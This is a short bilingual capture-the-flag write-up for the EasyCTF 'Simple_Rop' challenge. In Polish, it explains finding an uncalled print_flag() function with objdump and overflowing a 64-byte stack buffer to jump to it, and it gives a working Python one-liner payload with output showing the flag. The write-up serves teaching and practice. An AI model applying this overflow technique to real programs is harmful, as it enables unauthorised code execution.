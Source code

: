 ## Simple_Rop [EXP 120]

>On the shell there is a folder /problems/simple-rop.
>
>Read flag.txt

* [Source](simple-rop.c)
* [Binary](simple-rop)

### EN / [PL](#rozwiązanie)

### Solution:

### [EN](#solution) / PL

### Rozwiązanie:

```
$ objdump -d simple-rop > objdump
```

[objdump](objdump) - zacząłem od deasemblacji `simple-rop`.

W pliku `simple-rop.c` widać, że w programie znajduje się funkcja `print_flag()` czytająca plik z flagą, ale nie jest ona nigdzie wywoływana.
Po uruchomieniu programu w `main` wywoływana jest tylko funkcja `what_did_you_say()`, która wypisuje na ekran to co podaliśmy w argumencie.

W `objdump` można znaleźć funkcję `print_flag()`: `0804851a <print_flag>`. Obok podany jest jej adres w pamięci.

 `what_did_you_say()` zapisuje nasz input do 64-znakowej zmiennej `buff`. Moje rozwiązanie ograniczyło się do przepełnienia tego bufora i dopisaniu na końcu `\x1a\x85\x04\x08` czyli adresu `print_flag()`. Następnie stopniowo zwiększałem swój input aż nadpisałem właściwą sekcję i udało mi się zdobyć flagę. 

```
user74638@easyctf:/problems/simple-rop$ (python -c 'print "A"*76 + "\x1a\x85\x04\x08"')| ./simple-rop           
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
easyctf{r0p_7o_v1ct0ry}                                                                                         
                                                                                                                
Segmentation fault (core dumped)                                                                                
```

